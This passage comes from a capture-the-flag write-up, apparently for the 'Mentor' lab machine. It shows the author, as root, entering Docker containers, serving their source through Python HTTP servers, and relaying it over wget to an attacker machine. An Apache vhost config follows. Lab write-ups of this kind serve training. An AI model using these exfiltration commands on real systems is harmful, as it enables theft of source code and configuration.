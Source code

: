 #### Exfiltration
Collected the source code and some configuration files to further analyse the application.
```shell
## victim machine: on the sh shell as the root user
docker ps
<<SNIP
CONTAINER ID   IMAGE         COMMAND                  CREATED        STATUS        PORTS                       NAMES
f346f842a2b1   docker_web    "python main.py"         24 hours ago   Up 24 hours   172.22.0.1:81->80/tcp       docker_web_1
c853438556d9   docker_api    "python3 -m uvicorn …"   24 hours ago   Up 24 hours   172.22.0.1:8000->8000/tcp   docker_api_1
96e44c569292   postgres:13   "docker-entrypoint.s…"   9 months ago   Up 24 hours   172.22.0.1:5432->5432/tcp   docker_postgres_1
SNIP

# web application
docker exec -it docker_web_1 sh     # drop into the container
python -m http.server 8003    # start a server, and collect on logged in on ssh as svc user

# api application
docker exec -it docker_api_1 sh
python -m http.server 8003

## victim machine: on ssh shell as svc user
# web source code
wget -R "index.html*" -c -r -L -p -nc -nH -P docker_web  http://172.22.0.2:8003/   # download from container
python3 -m http.server 8003 -d docker_web/    # start a server, and collect on attacker's machine

# api source code
wget -R "index.html*" -c -r -L -p -nc -nH -P docker_api  http://172.22.0.3:8003/    
python3 -m http.server 8003 -d docker_api/

## on attacker's machine
# -R(ignore index.html), -c(continue downloading on interruption), -r(recursively download resources), -L(follow symbolic link), -p(download all static contents) -nc(don't download existing file in current directory), -nH(save all files), -P(give the downloaded directory the specified name)
wget -R "index.html*" -c -r -L -p -nc -nH -P docker_web  http://10.10.11.193:8003/    # web
wget -R "index.html*" -c -r -L -p -nc -nH -P docker_api  http://10.10.11.193:8003/    # api

# remember to dowload the image: postgres:13
```

[/etc/apache2/sites-enabled/000-default.conf](#/etc/apache2/sites-enabled/000-default.conf)
```xml
<VirtualHost *:80>
	ProxyPreserveHost On
        ServerName mentorquotes.htb
        ServerAdmin admin@mentorquotes.htb
        ProxyPass / http://172.22.0.1:81/
        ProxyPassReverse / http://172.22.0.1:81/

	RewriteEngine On
        RewriteCond %{HTTP_HOST} !^mentorquotes.htb$
        RewriteRule /.* http://mentorquotes.htb/ [R]

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

<VirtualHost *:80>

```
